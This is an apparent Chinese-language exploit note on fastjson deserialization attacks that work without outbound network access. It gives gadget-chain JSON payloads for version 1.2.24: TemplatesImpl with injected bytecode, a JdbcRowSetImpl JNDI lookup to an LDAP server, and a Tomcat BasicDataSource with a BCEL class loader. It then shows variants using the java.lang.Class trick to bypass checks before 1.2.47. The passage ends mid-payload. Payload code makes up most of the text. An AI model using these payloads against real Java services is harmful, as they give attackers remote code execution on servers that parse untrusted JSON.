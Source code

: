## fastjson不出网与命令回显

> 注：此攻击手法同样适用于高版本jdk下的利用
>

1.2.24版本的三个POC：

```json
1. 基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
{
		"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
		"_bytecodes":["poc_base64"],
		'_name':'a.b',
		'_tfactory':{ },
		"_outputProperties":{},
		"_name":"a",
		"_version":"1.0",
		"allowedProtocols":"all"
}
2.基于com.sun.rowset.JdbcRowSetImpl（JNDI，用的最多）

{
		"@type":"com.sun.rowset.JdbcRowSetImpl", 
		"dataSourceName":"ldap://localhost:1389/Exploit", 
		"autoCommit":true
}

3.基于org.apache.tomcat.dbcp.dbcp.BasicDataSource
{
    "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
    "driverClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "driverClassName": "$$BCEL$$$l$8b......"
}
```

其中基于其中1、3利用链都是基于java字节码，不需要出网。使用47版本的绕过方式（`java.lang.Class`）改造1、3两个poc，使他们适用于47以下的版本。

```json
{
    "a": {
        "@type": "java.lang.Class",
        "val": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"
        },
    "b": {
        "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
        "_bytecodes": ["poc_base64"],
        '_name': 'a.b',
        '_tfactory': {},
        "_outputProperties": {},
        "_name": "b",
        "_version": "1.0",
        "allowedProtocols": "all"
      }
}


{
    {
        "@type": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
```